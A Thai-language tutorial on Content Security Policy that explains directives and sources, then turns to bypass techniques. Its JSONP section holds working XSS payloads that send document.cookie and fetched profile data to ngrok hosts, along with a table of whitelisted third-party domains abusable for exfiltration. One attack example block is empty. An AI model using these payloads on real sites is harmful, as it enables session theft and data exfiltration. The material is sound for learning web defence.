


## CSP คืออะไร?

Content Security Policy (CSP) เป็นกลไกการป้องกันความปลอดภัยที่ช่วยป้องกันการโจมตีแบบ Cross-Site Scripting (XSS) และการโจมตีแบบ code injection อื่นๆ โดยการควบคุมแหล่งที่มาของทรัพยากรต่างๆ ที่เว็บไซต์สามารถโหลดได้

## วิธีการเปิดใช้งาน CSP

CSP สามารถเปิดใช้งานได้ 2 วิธี:

### 1. ผ่าน HTTP Header
```http
Content-Security-Policy: default-src 'self'; img-src 'self' allowed-website.com; style-src 'self';
```

### 2. ผ่าน Meta Tag ใน HTML
```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' https://trusted-cdn.com">
```

## โครงสร้างของ CSP

CSP ประกอบด้วย 2 ส่วนหลัก:

### 1. **Directives (คำสั่ง)** - กำหนดว่าจะควบคุมทรัพยากรประเภทใด
- `default-src`: แหล่งที่มาเริ่มต้นสำหรับทุกประเภท
- `script-src`: สำหรับ JavaScript
- `style-src`: สำหรับ CSS
- `img-src`: สำหรับรูปภาพ
- `font-src`: สำหรับฟอนต์
- `frame-src`: สำหรับ iframe
- `media-src`: สำหรับวิดีโอและเสียง
- `object-src`: สำหรับ plugins

### 2. **Sources (แหล่งที่มา)** - กำหนดว่าจะอนุญาตให้โหลดจากที่ไหนได้บ้าง
- `'self'`: จากโดเมนเดียวกัน
- `'none'`: ไม่อนุญาตเลย
- `'unsafe-inline'`: อนุญาต inline code (Inline code คือ code ที่เขียนไว้ภายในไฟล์ HTML โดยตรง ไม่ได้แยกออกไปเป็นไฟล์ต่างหาก)
```
<!-- Inline script tag -->
<script>
  function sayHello() {
    alert('สวัสดี!');
  }
</script>
```

- `'unsafe-eval'`: อนุญาต eval()
- `https://example.com`: อนุญาตจากโดเมนเฉพาะ

## ตัวอย่าง CSP Policy

```http
Content-Security-Policy: 
  default-src 'none'; 
  img-src 'self'; 
  script-src 'self' https://code.jquery.com; 
  style-src 'self'; 
  font-src 'self' https://fonts.googleapis.com; 
  frame-src 'self' https://www.youtube.com; 
  media-src https://videos.cdn.example.com; 
  object-src 'none';
  report-uri /csp-report
```


## CSP Directives

### **Script และ Resource Control**
- `script-src`: ควบคุมแหล่งที่มาของ JavaScript
- `default-src`: กำหนดนโยบายเริ่มต้นสำหรับทุกประเภททรัพยากร
- `img-src`: ควบคุมแหล่งที่มาของรูปภาพ
- `font-src`: ควบคุมแหล่งที่มาของฟอนต์
- `media-src`: ควบคุมแหล่งที่มาของวิดีโอ/เสียง

### **Network และ Connection**
- `connect-src`: ควบคุม URL ที่สามารถเชื่อมต่อได้ (fetch, WebSocket, XMLHttpRequest)
- `form-action`: ควบคุม endpoint สำหรับส่งฟอร์ม
- `navigate-to`: ควบคุม URL ที่สามารถนำทางไปได้

### **Frame และ Embedding**
- `frame-src`: ควบคุม URL สำหรับ frames
- `frame-ancestors`: ควบคุมว่าใครสามารถ embed หน้านี้ได้
- `child-src`: ควบคุมทรัพยากรสำหรับ web workers และ embedded frames

### **Security Features**
- `upgrade-insecure-requests`: บังคับให้ใช้ HTTPS
- `sandbox`: ใช้ข้อจำกัดเหมือน iframe sandbox
- `report-to`: กำหนดที่อยู่สำหรับรายงานการละเมิด

## CSP Sources (แหล่งที่มาที่อนุญาต)

### **Basic Sources**
- `*`: อนุญาตทุก URL ยกเว้น data:, blob:, filesystem:
- `'self'`: อนุญาตเฉพาะโดเมนเดียวกัน
- `'none'`: ไม่อนุญาตเลย
- `'data'`: อนุญาต data scheme (เช่น Base64 images)

### **Protocol-based**
- `https:`: อนุญาตเฉพาะ HTTPS
- `blob:`: อนุญาต Blob URLs
- `filesystem:`: อนุญาต filesystem URLs

### **Unsafe Sources (ไม่แนะนำ)**
- `'unsafe-inline'`: อนุญาต inline code
- `'unsafe-eval'`: อนุญาต eval() function
- `'unsafe-hashes'`: อนุญาต inline event handlers เฉพาะ

### **Secure Alternatives**
- `'nonce-<value>'`: อนุญาต inline script ที่มี nonce ตรงกัน
- `'sha256-<hash>'`: อนุญาต script ที่มี hash ตรงกัน
- `'strict-dynamic'`: อนุญาตให้ script ที่ผ่าน nonce/hash โหลด script อื่นได้

## เทคนิคการ Bypass ที่น่าสนใจ

### **Nonce Reuse Attack**
```html
<!-- ถ้าสามารถเรียกใช้ JavaScript ได้บ้าง สามารถขโมย nonce ได้ -->

```


## JSONP Abuse (การใช้ JSONP ในทางที่ผิด)

การใช้ JSONP ในทางที่ผิดเป็นวิธีคลาสสิกในการ bypass CSP ในการโจมตี XSS บล็อก INFOSEC ได้อธิบายเทคนิคนี้ในลักษณะที่เข้าใจง่ายมาก แต่เงื่อนไขคือ JSONP endpoints บางตัวต้องอยู่ใน allowlist ซึ่งมีรายการยาวมาก เมื่อเป็นเช่นนั้น เนื้อหา CSP จะมีลักษณะแบบนี้:

```http
Content-Security-Policy: script-src 'self' https://www.google.com https://www.youtube.com; object-src 'none';
```

นี่หมายความว่า script-src ถูกตั้งค่าให้เป็น self และโดเมนเฉพาะบางตัว (whitelist) ซึ่งมี JSONP endpoints ที่อนุญาตให้ใช้ callback methods ที่ไม่ปลอดภัย จากนั้นเราจะใช้ Javascript ที่ 'อันตราย' ซึ่งเป็นของโดเมนที่อยู่ใน whitelist เพื่อทำการโจมตี XSS

payload การโจมตีในกรณีนี้อาจมีลักษณะแบบนี้:

```html
<script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#"></script>

<script src="/api/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>

```

หรือ

```
https://www.youtube.com/oembed?callback=alert
<script src="https://www.youtube.com/oembed?url=http://www.youtube.com/watch?v=bDOYN-6gdRE&format=json&callback=fetch(`/profile`).then(function f1(r){return r.text()}).then(function f2(txt){location.href=`https://b520-49-245-33-142.ngrok.io?`+btoa(txt)})"></script>
```

## Third Party Abuse (การใช้ Third Party ในทางที่ผิด)

เมื่อเราเห็นโดเมน third-party ใน script-src หรือ connect-src directive ใน CSP เราอาจต้องมองหาโอกาสในการทำ XSS

เพื่อเรียนรู้เทคนิคการ bypass CSP ของ third-party ให้อ่าน SensePost's Blog เสมอ ผู้เขียนให้สภาพแวดล้อม lab ที่ดีพร้อมกับการแนะนำที่ละเอียด และมีโดเมน third-party จำนวนมาก บางตัวหลีกเลี่ยงไม่ได้สำหรับ web application ที่จะต้องใช้ ซึ่งมักให้โอกาสเราในการโจมตีเสมอ เช่น:

| Entity | Whitelist | Capabilities | Documentation |
|---------|-----------|--------------|---------------|
| Facebook | www.facebook.com, *.facebook.com | Exfil | No |
| Hotjar | *.hotjar.com, ask.hotjar.io | Exfil | No |
| Jsdelivr | *.jsdelivr.com, cdn.jsdelivr.net | Exec | Yes |
| Amazon CloudFront | *.cloudfront.net | Exfil, Exec | No |
| Amazon AWS | *.amazonaws.com | Exfil, Exec | No |
| Azure | .azurewebsites.net, .azurestaticapps.net | Exfil, Exec | No |
| Salesforce Heroku | *.herokuapp.com | Exfil, Exec | No |
| Google Firebase | *.firebaseapp.com | Exfil, Exec | Yes |
| Google Analytics | www.google-analytics.com | Exfil, Exec | Yes |

อย่างที่เราเห็น Jsdelivr และ Google Firebase อาจเป็นอันตรายที่สุด เพราะเราสามารถใช้พวกมันในการ execute commands ด้วยเอกสารสาธารณะแบบเปิดที่แสดงให้เราเห็นวิธีการใช้งาน ดังนั้น เมื่อเราค้นพบพวกมันใน CSP whitelist มักจะเป็นปัจจัยการโจมตีที่มีศักยภาพเสมอ

นอกจากนี้ เราสามารถเห็นความสามารถ 2 ประเภท: Exfiltrate & Execution ซึ่งหมายถึงการกระทำของการรั่วไหลข้อมูลและการ execute คำสั่งโดยพลการ พวกมันมักเกี่ยวข้องกับ CSP directives 2 ตัว:

- **connect-src**: มีประโยชน์ในการ exfiltrate ข้อมูลจากไซต์เป้าหมาย
- **script-src**: สามารถ execute code ในไซต์เป้าหมายได้

ในโปรแกรม bug bounty เว็บไซต์จำนวนมากเพิ่ม Google Analytics ใน CSP whitelist ดังนั้นจึงมีการวิจัยมากมายเกี่ยวกับวิธีการใช้ประโยชน์จาก https://www.google-analytics.com เพื่อทำการโจมตี XSS ของ third-party-domain เนื้อหาที่ดีสามารถพบได้ใน TECH & ENGINEERING BLOG และ detectify lab


